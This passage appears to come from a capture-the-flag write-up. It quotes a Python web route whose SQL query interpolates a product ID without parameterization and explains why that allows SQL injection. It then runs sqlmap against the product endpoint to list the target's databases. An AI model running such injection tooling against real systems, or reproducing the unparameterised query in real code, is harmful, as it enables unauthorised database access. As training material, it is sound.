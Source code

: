 There it is, let's download it and perform analysis on it:

![Pasted image 20250609133120.png](../../IMAGES/Pasted%20image%2020250609133120.png)

In this exact part of the code, we can find this:

```python
def product(product_id):
    with eng.connect() as con:
        # Executes the SQL Query
        # This should be the vulnerable portion of the application
        rs = con.execute(f"SELECT * FROM product WHERE id={product_id}")
        product_selected = rs.fetchone()  # Returns the entire row in a list
    return render_template('product.html', title=product_selected[1], result=product_selected)
```


The vulnerable section is:

```python
rs = con.execute(f"SELECT * FROM product WHERE id={product_id}")
```

This line directly interpolates `product_id` into an SQL query **without sanitization or parameterization**, making it susceptible to SQL injection via the `/products/<product_id>` endpoint.

Knowing this, we can proceed to exploitation.



# EXPLOITATION
---


Since we know SQLI is on the `products` section, we can use sqlmap to automate the exploitation process:

```
sqlmap -u "http://IP/products/1" --dbs --batch --level=5 --risk=3
```


We find the following databases:

```python
available databases [5]:
[*] duckyinc
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```
